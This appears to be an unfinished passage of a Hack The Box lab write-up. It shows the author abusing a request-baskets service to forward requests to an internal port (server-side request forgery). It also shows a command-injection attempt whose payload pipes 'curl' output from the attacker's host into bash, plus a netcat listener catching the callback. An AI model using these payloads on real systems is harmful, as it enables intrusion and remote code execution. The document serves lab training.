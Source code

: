 I'll make a new basket with the following post request:
```http
POST /api/baskets/kpaj0nh HTTP/1.1
Host: 10.129.14.50:55555
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: null
X-Requested-With: XMLHttpRequest
Origin: http://10.129.14.50:55555
DNT: 1
Connection: close
Referer: http://10.129.14.50:55555/web
Sec-GPC: 1
Content-Length: 0

{
  "forward_url": "http://127.0.0.1:8338/login",
  "proxy_response": false,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```

And going to that page give us...

![Pasted image 20230712113541](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/5a145a06-4d28-43ce-80f5-0351eb06e2f5)

Neat!
I think we can work with that. Let's try to curl to it with our method...

```bash
curl 'http://10.129.14.50:55555/kpaj0nh' \ --data 'username=;`curl 10.10.14.103 | bash`'
```

Failed... I'll probably have to encode the data somehow in my request...

Very strange... I send the following post request:


and get the reply
```
$ nc -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.129.14.50.
Ncat: Connection from 10.129.14.50:46922.
GET / HTTP/1.1
Host: 10.10.14.103:1337
User-Agent: curl/7.68.0
Accept: */*

```
But if I try anything, it breaks... no other method I try gives me a reply back... 
